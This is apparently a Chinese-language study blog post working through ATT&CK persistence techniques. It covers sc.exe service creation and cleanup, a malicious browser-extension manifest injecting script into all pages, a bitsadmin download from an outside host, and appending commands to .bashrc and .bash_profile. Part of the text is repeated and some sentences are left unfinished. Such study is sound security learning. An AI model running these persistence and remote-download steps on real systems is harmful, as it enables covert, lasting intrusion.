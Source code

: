 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之persistence
excerpt: "跟着ATT&CK学安全之persistence"
categories: [ATT&CK]
comments: true
---
```

### T1050 - New Service

###### 测试1,创建一个新的服务
```
sc.exe create #{service_name} binPath= #{binary_path}
sc.exe start #{service_name}
```
就是
```

```
清除痕迹
```
sc.exe stop #{service_name}
sc.exe delete #{service_name}
```
#### T1100 - Web Shell
通过使用webshell来维持控制,demo略

成功复现
#### Valid Accounts
通过已有的账号来维持控制

这个没法复现
### T1176 - Browser Extensions
有些恶意软件是通过浏览器扩展的形式贮存在客户端上,而这些恶意

###### 测试1 Chrome (Developer Mode)
1. 打开chrome://extensions 并选择开发者模式
2. 加载已解压的扩展程序

win10成功复现
##### 测试2 Chrome (Chrome Web Store)
1. 在chrome中打开`https://chrome.google.com/webstore/detail/minimum-viable-malicious/odlpfdolehmhciiebahbpnaopneicend`
2. 点击'Add to Chrome'

win10成功复现
##### 测试3 FireFox
1. Navigate to about:debugging and click "Load Temporary Add-on"
2. Navigate to manifest.json
3. Then click 'Open'

其中manifest.json
```
{
  "name": "Minimum Viable Malicious Extension",
  "description": "Base Level Extension",
  "version": "1.0",
  "manifest_version": 2,
  "content_scripts": [
    {
      "matches": [
        "<all_urls>"
      ],
      "js": [
        "inline.js"
      ]
    }
  ]
}
```
win10成功复现
### T1197 - BITS Jobs
windows后台智能传输服务(BITS)是一个通过Component Object Model (COM)的低带宽,同步文件传输的服务.BITS是一个用来更新,传输信息和其他应用后台操作并且不会干扰其他应用网络.我们可以通过powershell和BITSAdmin来创建BITS jobs

红队可以使用BITS来下载,运行恶意代码,甚至清除这些恶意代码.BITS运行不需要新建文件或者修改注册表,而且没有防火墙的拦截
###### 测试1 Download & Execute
```
bitsadmin.exe /transfer /Download /priority Foreground http://snappyzz.com/calc.calc D:\bitsadmin_flag.ps1
```
win10 下载成功复现,运行没有成功复现
###### 测试2 Download & Execute via PowerShell BITS
```
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```
win10 下载成功复现,运行没有成功复现
###### 测试3 Persist, Download, & Execute
这个今晚弄














---
layout: post
title: 跟着ATT&CK学安全之persistence
excerpt: "跟着ATT&CK学安全之persistence"
categories: [ATT&CK]
comments: true
---
#### T1050 - New Service

##### 测试1,创建一个新的服务
```
sc.exe create #{service_name} binPath= #{binary_path}
sc.exe start #{service_name}
```
就是
```

```
清除痕迹
```
sc.exe stop #{service_name}
sc.exe delete #{service_name}
```
#### T1100 - Web Shell
通过使用webshell来维持控制,demo略
#### Valid Accounts
通过已有的账号来维持控制
#### T1176 - Browser Extensions
有些恶意软件是通过浏览器扩展的形式贮存在客户端上,而这些恶意

##### 测试1 Chrome (Developer Mode)
1. 打开chrome://extensions 并选择开发者模式
2. 加载已解压的扩展程序

##### 测试2 Chrome (Chrome Web Store)
1. 在chrome中打开`https://chrome.google.com/webstore/detail/minimum-viable-malicious/odlpfdolehmhciiebahbpnaopneicend`
2. 点击'Add to Chrome'

成功复现
##### 测试3 FireFox
1. Navigate to about:debugging and click "Load Temporary Add-on"
2. Navigate to manifest.json
3. Then click 'Open'

其中manifest.json
```
{
  "name": "Minimum Viable Malicious Extension",
  "description": "Base Level Extension",
  "version": "1.0",
  "manifest_version": 2,
  "content_scripts": [
    {
      "matches": [
        "<all_urls>"
      ],
      "js": [
        "inline.js"
      ]
    }
  ]
}
```
成功复现
### T1156 - .bash_profile and .bashrc
当一个新的shell打开或者用户登录的时候,`~/.bash_profile`和`~/.bashrc`会运行,其中每次打开一个新shell,`.bashrc`就会运行一次
###### 测试1 Add command to .bash_profile
```bash
echo "#{command_to_add}" >> ~/.bash_profile
```
成功复现(root登录账户的条件下)
##### 测试2 Add command to .bashrc
```bash
echo "#{command_to_add}" >> ~/.bashrc
```
成功复现
### T1158 - Hidden Files and Directories
为了防止用户移动一些特定的文件,操作系统会提供一个'隐藏'的概念,用户需要设置之后才能在桌面看到或者使用`dir /a`或者是linux中的`ls -a`.红队可根据这个来隐藏文件

对于windows,用户可以使用attrib.exe来隐藏文件,简单的使用`attrib +h filename`来隐藏文件,使用`+s`标识系统文件,使用`+r`标识只读,使用`\S`递归